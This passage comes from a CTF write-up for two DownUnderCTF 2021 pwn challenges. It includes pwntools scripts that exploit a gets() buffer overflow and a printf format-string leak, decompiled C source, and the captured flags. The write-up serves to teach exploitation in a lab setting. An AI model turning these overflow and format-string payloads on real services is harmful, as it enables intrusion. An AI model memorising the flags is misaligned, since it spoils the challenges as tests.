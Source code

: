
The program use the vulnerable function gets to get user data, so i just need to fill enough padđing and overwrite v5 variable with value `0xdeadc0de`, here is my exploit script:
```python
from pwn import *

payload = b'A'*24+p64(0xdeadc0de)
io = remote('pwn-2021.duc.tf', 31916)
io.sendline(payload)
io.interactive()
```
Flag: `DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}`

## Leaking like a sieve

[This challenge](https://github.com/th3-5had0w/CTF-contests/raw/master/DownUnderCTF2021/leaking/hellothere) is a basic format string challenge.
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  FILE *stream; // [rsp+8h] [rbp-58h]
  char format[32]; // [rsp+10h] [rbp-50h] BYREF
  char s[40]; // [rsp+30h] [rbp-30h] BYREF
  unsigned __int64 v6; // [rsp+58h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  buffer_init(argc, argv, envp);
  stream = fopen("./flag.txt", "r");
  if ( !stream )
  {
    puts("The flag file isn't loading. Please contact an organiser if you are running this on the shell server.");
    exit(0);
  }
  fgets(s, 32, stream);
  while ( 1 )
  {
    puts("What is your name?");
    fgets(format, 32, stdin);
    printf("\nHello there, ");
    printf(format);
    putchar(10);
  }
}
```

The flag was loaded in already before we could input anything, also, the program uses printf without format specifier but pass in our input directly, so it would just be so easy to leak the flag in just one shot, here's my exploit script:
```python
from pwn import *

io = remote('pwn-2021.duc.tf', 31918)

payload = '%6$s'

print(io.recv())
io.sendline(payload)
print(io.recvuntil(b'Hello there, '))
print(io.recv())
```
Flag: `DUCTF{f0rm4t_5p3c1f13r_m3dsg!}`
